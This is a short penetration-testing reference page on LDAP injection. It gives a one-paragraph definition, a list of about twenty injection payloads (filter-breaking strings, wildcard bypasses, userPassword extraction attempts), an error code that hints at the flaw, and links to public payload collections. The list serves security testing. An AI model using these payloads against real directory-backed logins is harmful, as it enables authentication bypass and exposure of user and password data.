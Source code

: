 # LDAP Injection

LDAP Injection is a type of security vulnerability that can occur in web applications that use Lightweight Directory Access Protocol (LDAP) for authentication and/or authorization. It is a form of injection attack similar to SQL injection, but instead of targeting a database, it targets an LDAP server.

### Payloads

```
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

### Errors

When testing for LDAP Injection, sometimes only an error will be output in the response. For example, the error code `0x80005000` :&#x20;

{% embed url="https://learn.microsoft.com/en-us/answers/questions/566916/exception-unknown-error-(0x80005000)-while-creatin" %}

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/ldap-injection" %}

{% embed url="https://portswigger.net/kb/issues/00100500_ldap-injection" %}
